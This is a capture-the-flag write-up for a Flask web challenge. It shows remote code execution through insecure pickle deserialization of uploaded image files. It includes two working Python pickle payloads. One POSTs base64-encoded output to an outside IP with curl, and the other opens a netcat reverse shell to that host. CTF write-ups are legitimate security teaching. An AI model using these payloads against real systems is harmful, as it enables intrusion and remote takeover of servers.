 # Imported Kimchi 2
## Details
- Category: Web
- Flag: `flag{4nd_h3r3_1_w45_th1nk1ng_v1n3g4r_w45_s4n1t4ry}`
- Synopsis:
	- The server's source code is available, Flask being the web framework.
	- Gain RCE via Insecure Deserialization by including manipulated serialized objects to uploaded files.
## Writeup
Upon visiting the index page of [https://imported-kimchi-2.cha.hackpack.club/](https://imported-kimchi-2.cha.hackpack.club/), a file upload is available for PNG and JPG/JPEG images, which may be viewed after uploading with a manipulated file name, being a UUID.

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410231334.png)

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410231418.png)

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410231441.png)

Inspecting the provided source code, the webserver attempts to deserialize the uploaded image file, which may be exploited to gain RCE. For standard image files, this would not be feasible; however, an attacker may craft malicious payloads and upload them as image files to gain code execution.

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410231752.png)

From viewing https://book.hacktricks.xyz/pentesting-web/deserialization#pickle, I found a payload that may be used to gain RCE on the affected service.

To successfully gain RCE on the service, I created a VPS via AWS Lightsail and opened TCP port 80 using a netcat listener.

The python script below includes the Proof of Concept used to test whether RCE exists. The script checks whether netcat exists on the affected service, then sends HTTP POST data back to the VPS.

```python
#!/usr/bin/env python3

import pickle
import base64

class Payload(object):
	def __reduce__(self):
		import os
		return (os.system,('curl 3.135.195.57 -X POST -d $(which nc | base64)',))

poc = Payload()
print(poc)
print(pickle.dumps(poc))
```

After generating the object to be deserialized, I appended the output to an image file to be uploaded.

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410232537.png)

Then, by uploading and visiting the respective file, I received a connection back on my VPS!

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410232801.png)

To gain a fully functional shell, I used Pentest Monkey's reverse shell cheat sheet to grab the flag!

The final payload to generate is:

```python
#!/usr/bin/env python3

import pickle
import base64

class Payload(object):
	def __reduce__(self):
		import os
		return (os.system,('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 3.135.195.57 80 >/tmp/f',))

poc = Payload()
print(pickle.dumps(poc))
```

From uploading and attempting to view the image on the webpage, I received a reverse shell on my VPS to grab the flag!

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410233224.png)

![image](https://raw.githubusercontent.com/greysonevans/HackPackCTF_2022_Writeups/main/images/Pasted%20image%2020220410233331.png)
